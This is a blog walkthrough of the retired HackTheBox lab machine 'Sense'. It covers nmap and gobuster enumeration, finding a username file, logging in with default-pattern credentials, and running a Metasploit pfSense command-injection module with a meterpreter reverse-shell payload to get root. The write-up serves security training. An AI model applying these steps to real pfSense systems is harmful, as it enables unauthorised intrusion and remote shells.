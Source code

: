 ```yaml
---
layout: post
title: "HackTheBox Sense Walkthrough"
date: 2018-03-24
tags: HackTheBox, Walkthrough
---
```


With Sense now being retired, I can go ahead and post my first "on time" hackthebox walkthrough.

#### Enumeration
Starting with Nmap, as always...
```
# Nmap 7.60 scan initiated Mon Mar 19 07:51:25 2018 as: nmap -p- -sC -sV -oA sense_full 10.10.10.60
Nmap scan report for 10.10.10.60
Host is up (0.049s latency).
Not shown: 65533 filtered ports
PORT    STATE SERVICE  VERSION
80/tcp  open  http     lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
443/tcp open  ssl/http lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Login
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Not valid before: 2017-10-14T19:21:35
|_Not valid after:  2023-04-06T19:21:35
|_ssl-date: TLS randomness does not represent time

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Mar 19 07:53:26 2018 -- 1 IP address (1 host up) scanned in 121.24 seconds
```
So, we have a webserver. Navigating to it in Firefox we find that it is running PFSense:
![PFSense[({{"/images/blog/sense/pfsense.jpg" | absolute_url }})

A quick searchsploit revealed quite a few interesting vulnerabilities. However, all of the
apparently useful exploits require authentication.

```
searchsploit pfsense
---------------------------------------------------------------------------------------------- ----------------------------------
 Exploit Title                                                                                |  Path
                                                                                              | (/usr/share/exploitdb/)
---------------------------------------------------------------------------------------------- ----------------------------------
pfSense - 'interfaces.php?if' Cross-Site Scripting                                            | exploits/hardware/remote/35071.txt
pfSense - 'pkg.php?xml' Cross-Site Scripting                                                  | exploits/hardware/remote/35069.txt
pfSense - 'pkg_edit.php?id' Cross-Site Scripting                                              | exploits/hardware/remote/35068.txt
pfSense - 'status_graph.php?if' Cross-Site Scripting                                          | exploits/hardware/remote/35070.txt
pfSense - Authenticated Group Member Remote Command Execution (Metasploit)                    | exploits/unix/remote/43193.rb
pfSense 2 Beta 4 - 'graph.php' Multiple Cross-Site Scripting Vulnerabilities                  | exploits/php/remote/34985.txt
pfSense 2.0.1 - Cross-Site Scripting / Cross-Site Request Forgery / Remote Command Execution  | exploits/php/webapps/23901.txt
pfSense 2.1 build 20130911-1816 - Directory Traversal                                         | exploits/php/webapps/31263.txt
pfSense 2.2 - Multiple Vulnerabilities                                                        | exploits/php/webapps/36506.txt
pfSense 2.2.5 - Directory Traversal                                                           | exploits/php/webapps/39038.txt
pfSense 2.3.1_1 - Command Execution                                                           | exploits/php/webapps/43128.txt
pfSense 2.3.2 - Cross-Site Scripting / Cross-Site Request Forgery                             | exploits/php/webapps/41501.txt
pfSense Community Edition 2.2.6 - Multiple Vulnerabilities                                    | exploits/php/webapps/39709.txt
pfSense Firewall 2.2.5 - Config File Cross-Site Request Forgery                               | exploits/php/webapps/39306.html
pfSense Firewall 2.2.6 - Services Cross-Site Request Forgery                                  | exploits/php/webapps/39695.txt
pfSense UTM Platform 2.0.1 - Cross-Site Scripting                                             | exploits/freebsd/webapps/24439.txt
---------------------------------------------------------------------------------------------- ----------------------------------
```

PFsense's default credentials (admin:pfsense) didn't work. Attempting to brute force the login ended with my ip being blacklisted. Apparently that is not the way we're supposed to get in...

#### Web Content Discovery
Considering that we have a RCE Metasploit vulnerability and we got blacklisted trying to brute force the login, we probably need to find some credentials. After a lot gobuster scans, I finally found what I needed.
```
Gobuster v1.2                OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.60/
[+] Threads      : 50
[+] Wordlist     : /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
[+] Status codes : 301,302,307,403,200,204
[+] Extensions   : .txt
[+] Follow Redir : true
[+] Expanded     : true
=====================================================
http://10.10.10.60/changelog.txt (Status: 200)
http://10.10.10.60/tree (Status: 200)
http://10.10.10.60/installer (Status: 200)
http://10.10.10.60/system-users.txt (Status: 200)
http://10.10.10.60/%7echeckout%7e (Status: 403)
=====================================================
```
Changelog.txt told us that 2 of 3 vulnerabilities. It definitely sounds like we're on the right track with a pfsense vulnerability.

system-users.txt revealed a username (rohit) and a hint at the password: "password: company defaults."

Logging in with rohit:pfsense granted access to pfsense!

#### Exploitation
Now that we had usable credentials, we could go ahead and try out that MSF module.
```
Module options (exploit/unix/http/pfsense_graph_injection_exec):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD  pfsense          yes       Password to login with
   Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST     10.10.10.60      yes       The target address
   RPORT     443              yes       The target port (TCP)
   SSL       true             no        Negotiate SSL/TLS for outgoing connections
   USERNAME  rohit            yes       User to login with
   VHOST                      no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.X.X      yes       The listen address
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target
```
And we get dropped into Sense as root!
```
meterpreter > getuid
Server username: root (0)
```
#### Closing Thoughts
Overall, I'd consider Sense a *** box. I'm generally not a fan of VMs that require the use of a specific list to find critical information about the machine (in this case the username). However, because I was stuck at that stage for so long, I spent a lot of effort formalizing my web content discovery process, and in retrospect that was a great learning experience. It was quite frustrating at the time though... Also, while you needed to use the right list for content discovery, it was not an unusual list. I can't really complain about that too much.

It is nice that Sense was a realistic machine. Getting blacklisted is a great touch, and I'm generally more a fan of boxes that are realistic than CTF style.